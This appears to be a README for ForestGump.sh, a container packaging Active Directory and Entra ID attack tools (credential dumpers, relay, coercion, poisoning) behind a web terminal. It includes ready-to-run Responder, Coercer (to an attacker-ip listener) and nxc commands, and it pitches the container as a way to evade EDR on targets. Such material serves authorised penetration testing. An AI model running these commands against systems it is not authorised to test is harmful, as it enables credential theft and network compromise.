

<p align="center">
    
</p>

<p align="center">
    
</p>

<p align="center">
    <em>AD Attack Platform</em> · browser-based · containerized · ready to roll
</p>

> Mama always said: "AD pentesting tools are like a box of chocolates — you never know what you're gonna get."  
> But with ForestGump.sh, you get all of them. In a browser. In a container. Like a paper bag around booze at the grocery store.

Look, here's the thing: when an EDR like CrowdStrike or SentinelOne is sitting on the target, running impacket from your laptop is like chugging whiskey in the checkout aisle: you're gonna get caught. But wrap it in a container? That's the paper bag. The EDR sees ttyd, a friendly little web terminal. It doesn't see the Responder, the secretsdump, the ntlmrelayx hiding inside. You just look like a guy buying groceries.

A single Docker image packing the sharpest Active Directory and Entra ID attack & enumeration tools, served through **ttyd** — a web-based terminal on port `7681`. Fire up a browser, and you're in. Run from anywhere. Leave no agent on disk. And if you mess up? Just like that, it's like stepping off a bus — you don't even look back.

## Demo

ForestGump.sh gives you a browser-accessible offensive AD/Entra workstation with preinstalled tooling, so you can start assessing targets immediately instead of spending time on setup.

<p align="center">
    
</p>

In the web terminal you can:

- launch AD and Entra recon tools right away
- run from a disposable, reproducible container environment
- work from any machine with just a browser at `http://localhost:7681`

## Tools

### On-Prem AD

| Tool | Description |
|------|-------------|
| [bloodyAD](https://github.com/CravateRouge/bloodyAD) | AD privilege escalation swiss army knife (LDAP/SAMR) |
| [BloodHound.py](https://github.com/dirkjanm/BloodHound.py) | BloodHound Python ingestor |
| [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec) | Network execution toolkit (smb, ldap, winrm, etc.) |
| [Impacket](https://github.com/fortra/impacket) | Swiss army knife of AD protocols |
| [Responder](https://github.com/lgandx/Responder) | LLMNR/NBT-NS/MDNS poisoner |
| [RelayKing-Depth](https://github.com/depthsecurity/RelayKing-Depth) | NTLM & Kerberos relay detection |
| [Coercer](https://github.com/p0dalirius/Coercer) | Automatic Windows auth coercion |
| [certipy-ad](https://github.com/ly4k/Certipy) | ADCS abuse toolkit |
| [gopacket](https://github.com/mandiant/gopacket) | Go impacket — 63 tools, 24 packages (Mandiant) |
| [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) | LDAP domain dumper |
| [pySIDHistory](https://github.com/felixbillieres/pySIDHistory) | Remote SID History injection & auditing |
| [getSPNless](https://github.com/jarnovandenbrink/getSPNless) | SPN-less RBCD attacks |
| [ad-reaper](https://github.com/mermehr/ad-reaper) | Multi-protocol AD enumerator (LDAP, SMB, SAMR) |
| [AdStrike](https://github.com/capture0x/AdStrike) | AI-powered modular AD red-team framework |
| [godap](https://github.com/Macmod/godap) | LDAP TUI explorer |
| [ldapnomnom](https://github.com/lkarlslund/ldapnomnom) | Anonymous LDAP username bruteforce |
| [GPOHunter](https://github.com/PShlyundin/GPOHunter) | GPO misconfiguration analyzer |
| [gpoParser](https://github.com/synacktiv/gpoParser) | GPO extraction & analysis |
| [snafflepy](https://github.com/cisagov/snafflepy) | Python Snaffler — interesting file discovery |
| [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) | WinRM shell (Ruby) |
| [xfreerdp](https://github.com/FreeRDP/FreeRDP) | RDP client |
| [tightvncserver](https://github.com/TigerVNC/tigervnc) | VNC server |
| [gontlm-proxy](https://github.com/bdwyertech/gontlm-proxy) | NTLM proxy forwarder |
| [px](https://github.com/genotrance/px) | NTLM proxy (Python) |
| [DonPAPI](https://github.com/login-securite/DonPAPI) | Remote DPAPI credential dumper |
| [mimikatz](https://github.com/gentilkiwi/mimikatz) | Windows credential extraction (binary in /opt/tools/mimikatz) |
| [Rubeus](https://github.com/GhostPack/Rubeus) | Kerberos abuse toolkit (source in /opt/tools/Rubeus) |
| [KslKatz](https://github.com/vergamota/KslKatz) | BYOVD LSASS credential extractor (source in /opt/tools/KslKatz) |
| [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) | PowerUp, PowerView, etc. (source in /opt/tools/PowerSploit) |
| [SharpUp](https://github.com/GhostPack/SharpUp) | C# PowerUp (source in /opt/tools/SharpUp) |
| [Recon-AD](https://github.com/outflanknl/Recon-AD) | ADSI-based AD recon DLLs (source in /opt/tools/Recon-AD) |
| [ADCSCoercePotato](https://github.com/decoder-it/ADCSCoercePotato) | ADCS auth coercion (source in /opt/tools/ADCSCoercePotato) |
| [adPEAS](https://github.com/61106960/adPEAS) | AD enum PowerShell script (/opt/tools/adPEAS) |
| [AD-Ghost](https://github.com/LuemmelSec/AD-Ghost) | AD "undetectable" account PoC (/opt/tools/AD-Ghost) |
| [Invoke-PassTheCert](https://github.com/The-Viper-One/Invoke-PassTheCert) | Cert-based LDAP auth PowerShell (/opt/tools/Invoke-PassTheCert) |

### Entra ID / Azure AD

| Tool | Description |
|------|-------------|
| [ROADtools](https://github.com/dirkjanm/ROADtools) | Azure AD exploration framework (roadrecon, roadlib) |
| [roadtx](https://github.com/dirkjanm/ROADtools) | ROADtools Token eXchange |
| [EntraFalcon](https://github.com/CompassSecurity/EntraFalcon) | Entra ID enumeration & risk assessment (PowerShell) |
| [entra-ca-insight](https://github.com/emiliensocchi/entra-ca-insight) | Conditional Access gap analysis |
| [Azure CLI](https://github.com/Azure/azure-cli) | Azure CLI (pipx) |
| [TokenSmith](https://github.com/JumpsecLabs/TokenSmith) | Entra ID token generator |
| [Microsoft.Graph](https://github.com/microsoftgraph/msgraph-sdk-powershell) | Microsoft Graph PowerShell SDK |
| [AzureAD](https://github.com/Azure/AzureAD) | AzureAD PowerShell module |

## Quick Start

```bash
# Build the image
make build

# Run with host networking (recommended for AD work)
make run
```

Open **http://localhost:7681** in your browser.

### With bridge networking

```bash
make run-bridge
```

### Interactive shell

```bash
make shell
```

## Usage Examples

```bash
# BloodHound enumeration
bloodhound-python -d domain.local -u user -p Password123 -dc dc.domain.local -c all

# NetExec
nxc smb 192.168.1.0/24 -u user -p Password123

# Coercer
coercer coerce -d domain.local -u user -p Password123 --dc-ip 192.168.1.10 -l attacker-ip

# Responder
responder -I eth0 -wrf

# RelayKing
python3 /opt/tools/RelayKing-Depth/relayking.py -h

# gopacket (63 Go tools in /opt/tools/gopacket)
./GetADUsers host
./rbcd ...
```

## Running with Network Access

The container uses `--net=host` to share the host network stack — necessary for tools like Responder, Coercer, and nxc that need raw socket access or must listen on specific ports.

`--cap-add=NET_ADMIN` and `--cap-add=SYS_ADMIN` grant the privileges needed for packet crafting and network manipulation.

Use the prebuilt GHCR image with host networking:

```bash
docker run -it --rm --name forestgump -p 7681:7681 --net=host --cap-add=NET_ADMIN --cap-add=SYS_ADMIN ghcr.io/benjitrapp/forestgump.sh:latest
```

For Mac Silicon (ARM) users, pull the x86_64 image explicitly before running:

```bash
docker pull ghcr.io/benjitrapp/forestgump.sh:latest --platform linux/x86_64
```

## Kubernetes Deployment

For fast deployment, run the following command:

```bash
kubectl apply -f https://raw.githubusercontent.com/benjitrapp/forestgump.sh/main/deploy/forestgump.yaml
```

### Pod

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: forestgump-pod
  labels:
    app: forestgump
spec:
  containers:
  - name: forestgump-pod
    image: ghcr.io/benjitrapp/forestgump.sh:latest
    ports:
    - containerPort: 7681
    securityContext:
      readOnlyRootFilesystem: true
```

### Service

```yaml
apiVersion: v1
kind: Service
metadata:
  name: forestgump-svc
  labels:
    app: forestgump
spec:
  type: ClusterIP
  ports:
  - port: 7681
    protocol: TCP
  selector:
    app: forestgump
```

To access the container, run:

```bash
kubectl port-forward forestgump-pod 7681:7681
```

Open in your browser: **http://localhost:7681**

## Project Structure

```
ForestGump.sh/
├── Dockerfile
├── Makefile
├── README.md
├── install.sh         # Tool installation script
└── scripts/
    ├── entrypoint.sh  # ttyd launcher with tool banner
    └── tools.sh       # PATH/alias setup (sourced in .bashrc)
```
